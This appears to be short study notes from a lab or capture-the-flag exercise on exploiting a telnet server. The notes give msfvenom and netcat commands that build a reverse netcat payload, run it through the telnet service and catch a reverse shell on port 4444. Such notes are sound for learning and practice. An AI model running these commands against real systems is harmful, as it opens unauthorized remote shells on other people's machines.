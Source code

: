 # Exploiting telnet server

- port listed as TCP, with some server response
- create payload with: `msfvenom -p cmd/unix/reverse_netcat lhost=[local ip tun0] lport=4444 R`
  - `-p`: payload
  - `R`: raw output
- create a listener on local host: `nc -lvp 4444`
- connect with: `telnet [ip] [port]`
- copy payload and run: `.RUN [payload]`
- this should give a reverse shell
